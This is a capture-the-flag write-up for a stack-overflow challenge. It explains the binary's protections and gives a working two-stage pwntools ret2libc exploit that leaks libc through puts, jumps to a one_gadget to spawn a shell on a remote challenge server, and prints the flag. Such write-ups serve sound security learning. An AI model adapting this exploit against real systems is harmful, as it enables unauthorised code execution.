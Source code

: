 # baby pwn

## Pwn - Points: 490

> Mommy what is stack overflow?
>
> 
>
> `nc 35.188.73.186 1111`
>
> 
>
> **Author**
>
> 
>
> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;codacker
>
> [vuln](vuln)
>

Checking the provided binary with `checksec` shows the enabled security mechanisms:

```shell
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

The program consists of a `gets` and `puts` call to echo back an user input. The buffer size is 256 and can overflow and since it is compiled without stack canaries, it immediately enables us to get code execution. Since the NX bit is enabled, we can not execute code in any writable areas, e.g. the stack, so we can not easily execute shellcode there. Since the binary is dynamically linked we can use `ret-2-libc`, but with `ASLR` enabled, we need to find a way to leak the libc base address.

To achieve that, we prepare a `puts` call to print the real address of `puts` out by putting a `ROP` gadget `pop rdi, ret` followed by the `puts` address from the `GOT` table followed by the address of `puts` (PLT) on the stack. This will call the `puts` function with the `GOT` address of `puts` as argument (`RDI` register). In addition we put the address of the `main` function on the stack, so that the program recursively executes again from the beginning and on the second stage we directly overflow and jump to `one_gadget` with the needed offset of `libc` to get the shell.

```python
from pwn import *

libc = ELF('libc-2.27.so')
e = ELF('vuln')

rop = ROP('vuln')
pop_rdi_ret = (rop.find_gadget(['pop rdi', 'ret']))[0]
ret = (rop.find_gadget(['ret']))[0]

p = remote('35.188.73.186', 1111)
# p = process('vuln')

print p.recvuntil('>')

# first stage, print puts address and recursively call main again
p.sendline('A'*264+p64(pop_rdi_ret)+p64(e.got['puts'])+p64(e.symbols['puts'])+p64(e.symbols['main']))
p.recvuntil('\n')
p.recvuntil('\n')
puts = u64(p.recv(6) + '\x00\x00')

print p.recvuntil('>')

# calculate libc base address
libc_base = puts - libc.symbols['puts']
print 'libc_base: ' + hex(libc_base)

# execve /bin/sh found by one_gadget
one_gadget = 0x4f322

# second stage, overflow with one_gadget to spawn a shell
p.sendline('A'*264+p64(ret)+p64(libc_base + one_gadget))
p.interactive()

```

flag: `rooters{L0l_W3lc0m3_70_7h3_0f_Pwn1ng}ctf`